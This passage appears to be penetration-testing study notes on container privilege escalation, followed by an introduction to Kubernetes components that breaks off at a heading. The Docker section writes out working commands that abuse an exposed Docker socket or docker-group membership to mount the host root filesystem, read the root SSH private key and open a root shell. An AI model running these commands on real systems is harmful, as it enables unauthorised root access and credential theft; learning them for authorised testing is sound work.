 **Spawn privileged container mapping host root:**

```bash
/tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
/tmp/docker -H unix:///app/docker.sock ps
```

**Access host filesystem:**

```bash
/tmp/docker -H unix:///app/docker.sock exec -it <container_id> /bin/bash
cat /hostsystem/root/.ssh/id_rsa
```


### 3. Docker Group

* If user is in **docker group**, they can control Docker daemon → root.

```bash
id
uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
```

**List images:**

```bash
docker image ls
```

**Spawn root shell via socket:**

```bash
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

---


# Kubernetes

## 1. What is Kubernetes (K8s)?

* Open-source container orchestration platform (originally by Google; now CNCF).
* Manages deployment, scaling, networking, storage, and lifecycle of containers.
* Key concepts: **Control Plane** (master) and **Worker Nodes** (minions).

### 2. Core concepts

* **Pod** — smallest deployable unit; may contain 1+ containers; has its own IP/hostname.
* **Service** — stable network endpoint for Pods (load balancing, discovery).
* **Deployment** — desired-state controller for Pods/ReplicaSets.
* **etcd** — cluster state datastore.
* **kube-apiserver** — central API endpoint (port `6443`).


### 3. Control Plane components & common ports
